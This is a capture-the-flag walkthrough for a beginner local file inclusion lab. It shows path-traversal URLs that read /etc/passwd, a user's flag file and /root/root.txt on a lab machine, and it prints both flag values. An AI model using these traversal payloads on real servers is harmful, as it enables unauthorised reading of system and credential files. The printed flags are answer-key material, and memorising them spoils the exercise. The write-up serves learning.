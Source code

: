 <div align="justify">
  
# **Inclusion**

## **A beginner level LFI Challenge**

### What is Local File Inclusion (LFI)?
Basically, A Local File Inclusion
> Allows an attacker to read (and sometimes execute) files on the victim machine. This can be very dangerous because if the web server is misconfigured and running with high privileges, the attacker may gain access to sensitive information. If the attacker is able to place code on the web server through other means, then they may be able to execute arbitrary commands.
<p align="center"> <a href="https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/"> offensive-security.com </p>

### **Solution**

Start to deploy the machine.
  
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154020246-97d2f0d3-e36d-49cc-80a4-e91b7dac7e7b.png"
</p>
  
We can see that this is a normal blog webpage. At first, I explore the website and look for parameters. If we click the "View details" buttons we can now have the parameter "name=".
  
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154020698-fc3cec40-b9f1-4ffa-a623-85361db042ad.png"
</p>
  
Now, we can insert our LFI payload to "name=" parameter to gain sensitive information on the website. I use burpsuite to capture the request and edit the parameter value, use the basic payload "../../../../../../../etc/passwd"
```
http://10.10.66.111/article?name=../../../../../../../etc/passwd
```
to access the passwd file, and it shows some accounts that caught my attention.
  
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154022207-484a234c-d15a-473d-af62-453092358c8c.png"
</p>
  
We will focus on the falconfeast and root account because I assume that the flag is stored in their directory.
So I come up with the idea that the user.txt is stored in /home/falconfeast
 
```
http://10.10.66.111/article?name=../../../../../../../home/falconfeast/user.txt
```
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154022694-57ec60e8-c9b0-434f-8a97-208be7352511.png"
</p>
  
It shows random numbers, and it is the user flag!!!

Now, for the root flag, I assume that the file is in /root
  
```
http://10.10.66.111/article?name=../../../../../../../root/root.txt
```
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154022707-70872241-6083-497f-aafa-d4f00ee07b1c.png"
</p>
  
Again, it shows random numbers and it is the root flag!!!
  
### **Flag**

user flag
```
60989655118397345799
```
root flag
```
42964104845495153909
```
  
---
  
</div>
